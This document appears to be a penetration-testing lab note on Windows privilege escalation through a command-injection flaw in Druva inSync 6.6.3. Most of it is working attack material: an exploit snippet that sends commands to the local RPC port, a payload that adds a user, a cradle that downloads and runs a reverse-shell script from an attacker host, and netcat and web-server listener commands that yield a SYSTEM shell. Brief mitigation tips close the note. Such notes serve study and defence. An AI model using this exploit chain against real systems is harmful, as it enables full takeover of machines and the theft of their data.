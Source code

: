 
### **Overview**

- Even on _well-patched systems_, vulnerable _third-party applications_ can lead to privilege escalation.
- Misconfigurations or unpatched services running as _NT AUTHORITY\SYSTEM_ pose serious risks.
- Common scenario: services accessible on local ports or allowing command injection.

---

## Application Discovery

### **Check Installed Applications**
```cmd
wmic product get name
```
- Look for uncommon or _third-party software_ (e.g., _Druva inSync 6.6.3_).
- Cross-reference versions via web search for known vulnerabilities.


## Example: Druva inSync v6.6.3

### **Vulnerability**

- Local _RPC command injection_ on port `6064`.    
- Service runs as `NT AUTHORITY\SYSTEM`.

### **Confirm Port & Service**
```cmd
netstat -ano | findstr 6064
get-process -Id <PID>
get-service | ? {$_.DisplayName -like 'Druva*'}
```

## PowerShell PoC Exploit
https://www.exploit-db.com/exploits/49211

### **Default Payload**
```cmd
$cmd = "net user pwnd /add"
```

### **Exploit Snippet**
```powershell
$s = New-Object System.Net.Sockets.Socket(...)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("cmd.exe /c $cmd")
$length = [System.BitConverter]::GetBytes($command.Length)

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

## Payload Modification: Reverse Shell

### **Download & Edit Reverse Shell**

1. Use `Invoke-PowerShellTcp.ps1`
2. Append:
```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```
3. Save as `shell.ps1`

### **Modify PoC**
```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

---
## Execute & Get SYSTEM Shell

### **Start Services on Attacker Machine**
```bash
python3 -m http.server 8080
nc -lvnp 9443
```

### **On Target**
```powershell
Set-ExecutionPolicy Bypass -Scope Process
# Run PoC Script
```

### **Expected Result**
```powershell
whoami
# => nt authority\system
hostname
# => WINLPE-WS01
```

---

## Key Takeaways

- Always **enumerate third-party apps**.
- Look for **open local ports** tied to services running as SYSTEM.
- Use **application whitelisting** and **restrict local admin rights** to mitigate risks.
- Even **well-patched systems** can be vulnerable via third-party services.